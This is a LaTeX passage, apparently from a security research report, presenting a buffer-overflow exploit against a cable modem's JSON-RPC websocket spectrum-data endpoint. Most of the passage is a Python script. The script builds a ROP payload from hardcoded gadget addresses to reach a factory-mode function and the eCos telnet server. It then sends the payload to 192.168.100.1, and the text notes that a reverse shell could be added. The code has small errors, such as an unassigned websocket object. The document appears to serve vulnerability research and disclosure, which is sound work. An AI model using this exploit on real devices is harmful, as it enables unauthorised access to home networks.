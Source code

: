 \subsection{Final Request}
The final request is made from the media server because then it's not necessary to include port forwarding in the rop chain to get access to the eCos telnet server, as the media server is already on the local network. 
If one were to include a reverse shell or port forwarding to the rop chain then the more general example explained in \cref{app:technical_replication} could be used to created the request in javascript from the victims browser.

The request can be made from any computer on the network (including the media server) and for ease of understanding the program executing the request can be seen in \cref{lst:pythonExploitRequest} written in Python.

\begin{lstlisting}[language=Python,label={lst:pythonExploitRequest},caption={Python code for executing exploit request}]
  import websocket

start = """{
  "jsonrpc":"2.0",
  "method":"Frontend::GetFrontendSpectrumData",
  "params":{
    "coreID":0,
    "fStartHz":"""

end = """,
      "gain":1
    },
    "id":"0"
  }"""

loopGadget = bytearray.fromhex('80ee567c') # Also used for S7 register
allowConfig = bytearray.fromhex('80280474') # Factory mode function
getSingletonMutex = bytearray.fromhex('8025ecd0')
allowConfigGadget = bytearray.fromhex('800aa090')

payload = (start.encode('ascii') +
    ('A'*116).encode('ascii') + allowConfig +         # sp+116       (s1)
    ('A'*20).encode('ascii') + loopGadget +            # sp+144       (s7)
    ('A'*4).encode('ascii') + getSingletonMutex +   # sp+148       (ra)
    ('A'*28).encode('ascii') + allowConfigGadget +  # sp+160+20    (??)
    ('A'*60).encode('ascii') + loopGadget +            # sp+160+20+40 (??)
    end.encode('ascii'))

websocket.WebSocket()
ws.connect("ws://192.168.100.1:8080/Frontend")
ws.send(payload)

#The final json request string:
#{
#  "jsonrpc":"2.0",
#  "method":"Frontend::GetFrontendSpectrumData",
#  "params":{
#    "coreID":0,
#    "fStartHz":AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
#               AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x80(\x04tAAAAAAAAAAAAAA
#               AAAAAA\x80\xeeV|AAAA\x80%\xec\xd0AAAAAAAAAAAAAAAAAAAAAAAAAAAA\x80\n
#               \xa0\x90AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
#               \x80\xeeV|,
#    "gain":1
#  },
#  "id":"0"
#}
\end{lstlisting}

